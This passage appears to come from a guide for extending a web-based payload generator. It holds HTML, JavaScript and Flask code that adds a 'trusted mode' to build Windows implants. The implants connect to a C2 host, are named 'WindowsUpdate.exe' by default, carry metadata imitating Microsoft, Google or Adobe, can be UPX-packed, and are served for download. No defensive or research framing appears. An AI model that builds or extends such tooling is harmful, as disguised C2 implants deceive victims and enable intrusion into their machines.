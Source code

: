 ```html
    <select id="metadataStyle">
        <option value="microsoft">Microsoft</option>
        <option value="google">Google</option>
        <option value="adobe">Adobe</option>
    </select>
</div>
```

### Add JavaScript Handler

Edit `/workspace/static/js/app.js`:

```javascript
document.getElementById('trustedMode').addEventListener('change', function() {
    document.getElementById('trustedOptions').style.display = 
        this.checked ? 'block' : 'none';
});

// In generatePayload function:
if (document.getElementById('trustedMode').checked) {
    config.trusted = true;
    config.filename = document.getElementById('trustedFilename').value;
    config.metadata_style = document.getElementById('metadataStyle').value;
}
```

### Update Backend

Edit `/workspace/web_app_real.py`:

```python
@app.route('/api/generate-payload', methods=['POST'])
def generate_payload():
    data = request.json
    
    if data.get('trusted') and data.get('platform') == 'windows':
        from trusted_payload_builder import trusted_builder
        
        config = {
            'c2_host': data.get('bind_host', 'localhost'),
            'c2_port': data.get('bind_port', 4433),
            'filename': data.get('filename', 'WindowsUpdate.exe'),
            'metadata_style': data.get('metadata_style', 'microsoft'),
            'use_upx': data.get('compress', False)
        }
        
        result = trusted_builder.build_trusted_payload(config)
        
        if result['success']:
            return jsonify({
                'success': True,
                'message': result['message'],
                'filename': result['filename'],
                'size': result['size_human'],
                'hash': result['hash'],
                'download_url': '/api/download-payload'
            })
        else:
            return jsonify({'error': result['error']}), 500
```

---